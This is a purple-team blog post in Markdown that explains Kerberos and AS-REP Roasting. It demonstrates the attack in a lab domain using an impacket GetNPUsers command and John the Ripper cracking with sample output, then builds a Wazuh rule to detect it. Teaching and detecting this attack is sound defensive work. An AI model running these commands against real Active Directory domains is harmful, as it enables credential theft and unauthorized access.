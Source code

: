```yaml
---
title: AS-REP Roasting - MITRE ATT&CK T1558.004
date: 2025-04-27 13:00:00 
categories: [Purple Team,Active Directory & Kerberos Abuse]
tags: [active directory,asrep roasting,hashcat]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post5/kerberos.png
---
```

Hello everyone, thank you for being here. In this blog post, I will demonstrate and simulate a very classic yet interessting Active Directory and Kerberos abuse attack: the **AS-REP Roasting** attack. So, let's get started!
## What is Kerberos ?
Kerberos is a network authentication protocol designed to provide strong authentication for client-server applications using ticket-based cryptography. Developed by MIT, it is the default authentication mechanism in Microsoft Active Directory (AD) environments.
### Kerberos components :
Kerberos authentication involves three main components:

- **Key Distribution Center (KDC)** – The central authority that issues tickets, the KDC has two main components :
  - **Authentication Service (AS)** – Verifies user identity and issues Ticket-Granting Tickets (TGTs).
  - **Ticket-Granting Service (TGS)** – Grants service tickets for accessing resources.

- **Client** – The user or service requesting access.

- **Service Server** – The resource the client wants to access (e.g., a file share, SQL server).
### The Kerberos Authentication Flow (simplified) :

1. **AS-REQ** (Authentication Service Request) : – The client requests a TGT from the AS.

2. **AS-REP** (Authentication Service Reply) : – If pre-authentication is enabled, the AS verifies the user’s credentials and sends an encrypted TGT.

3. **TGS-REQ** (Ticket-Granting Service Request) : – The client sends the TGT to the TGS to request a service ticket.

4. **TGS-REP** (Ticket-Granting Service Reply) : – The TGS issues a service ticket for the requested resource.

5. **AP-REQ** (Application Request) : – The client presents the service ticket to the target server.

6. **AP-REP** (Application Reply) : – The server grants access.

this image below represents the kerberos flaw, as stated before :

![screen_1](/./media/post5/krbmsg.gif)

## AS_REP Roasting :
**AS-REP Roasting** exploits a weakness in Kerberos when **pre-authentication** is disabled for a user account. Without pre-authentication, an attacker can request a TGT (no password aka anyone can) for the user and receive an encrypted AS-REP message, which can be cracked offline to reveal the user’s password. Luckily in **Kerberos v5** the preauth is enabled by default and you have to manually disable it, the only reason i think sys admin would disble it is for backward compatibility with Kerberos v4 libraries that might be used by some legacy applications,those account by default do not require a password.
## ATTACK Simulation (AS-REP Roasting Attack Demonstration) :
In this practical demonstration, we'll simulate an **AS-REP Roasting** attack in our test environment and identify **key Indicators of Attack (IoAs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Target Domain: **iccn.ma**

- Vulnerable Account: **iccn.ma/jdoe** (pre-authentication disabled)
the **jdoe** user properties must be set up with preauth disabled just as follows : 

![screen_2](/./media/post5/jdoe_prop.png)

### Attack
for the asrep abuse we'll use the impacket script **GetNPUsers.py** script :
```shell
impacket-GetNPUsers -no-pass iccn.ma/jdoe -dc-ip 10.0.2.16 
```
after execuring this command we'll get the ASREP (TGT + Session key), the session key is the one that's encrypted wiht the user jdoe password's hash.
now we can move to offline cracking, we can use tools like hashcat or JTR (john the ripper), for this demo i'll user JTP with rockyou.txt password list, the command is like this : 
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgt.txt 
```
after a while (depending on the domain password policy), we can get this output :
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$jdoe@ICCN.MA)     
1g 0:00:00:00 DONE (2025-04-28 23:28) 6.250g/s 211200p/s 211200c/s 211200C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
as we can see the password of the **iccn/jdoe** user is **Password123** 
and just like that the attacker has now a foothold in your domaina and can perfom even more enumeration to find weakspots.


## Detect & respond the Attack Using _Wazuh_

every TGT Request to the DC is logged with this **4768**, remember it because we'll need it later when we create detection rules in **_wazuh_**. You can see the event in windows event viewer just like this :

![screen_3](/./media/post5/windows_event.png)

The objective of this detection is to generate alerts whenever an **unauthorized IP** makes a **TGT request** to Domain Controller (DC) accounts that have **pre-authentication disabled**. To achieve this, we'll use Wazuh and its powerful capabilities for customizing detection rules and variables.

By default, Wazuh includes a rule for TGT requests; however, it is set at level 0, which means it does not generate alerts. Instead of modifying this built-in rule, we'll create a child rule that triggers whenever the parent rule fires. This approach gives us better control and flexibility over the detection logic.

Let’s analyze the following rule:

```xml
<var name="acc_no_pre_auth">jdoe</var>
<group name="security_event, windows,">
  <rule id="110002" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.TargetUserName">$acc_no_pre_auth</field>
    <match name="win.eventdata.IpAddress" negate="yes">10.0.2.17</match>
    <options>no_full_log</options>
    <description>Possible ASREP Roast Attack from $(win.eventdata.IpAddress) to a no-preauth account: $(win.eventdata.TargetUserName)</description>
    <mitre>
        <id>T1558.004</id>
    </mitre>
    <info type="link">https://attack.mitre.org/techniques/T1558/004/</info>
  </rule>
</group>
````
This child rule (ID: 110002) is triggered when its parent rule (60103) is matched. It includes conditions aligned with our detection objective:

1. It only triggers if the **TargetUserName** matches an account with pre-authentication disabled, defined in the variable **$acc_no_pre_auth**.
2. It ensures the IpAddress is not equal to the legitimate IP address **10.0.2.17**.

The generated alert includes useful metadata like the MITRE ATT&CK technique ID and a link for further reading.

Next, we simulate the attack from a Linux machine with the IP address 10.0.2.20:

![screen_4](/./media/post5/ifconfig.png)
After using the Impacket script (as in the previous attack simulation). In the Wazuh Dashboard, we can observe that an alert was successfully generated:
![screen_5](/./media/post5/alert.png)
we can further inspect the content of the alert using drilldowns 
![screen_6](/./media/post5/desc_1.png)

## Conclusion
This detection strategy successfully leverages Wazuh’s rule customization and variable substitution capabilities to detect **ASREP Roasting** attacks. By creating a child rule that monitors for TGT requests to accounts with preauthentication disabled—only from unauthorized IPs— we ensure targeted and meaningful alerts without modifying Wazuh’s built-in rules. This approach enhances flexibility and maintains rule integrity. As demonstrated, a simulated ASREP Roasting attempt from an untrusted IP triggered a precise alert, confirming the effectiveness of this method in identifying potential lateral movement or credential dumping attacks in an Active Directory environment.

I hope You have enjoyed reading this blog post,f you have any questions or need help implementing a similar setup, feel free to ask!

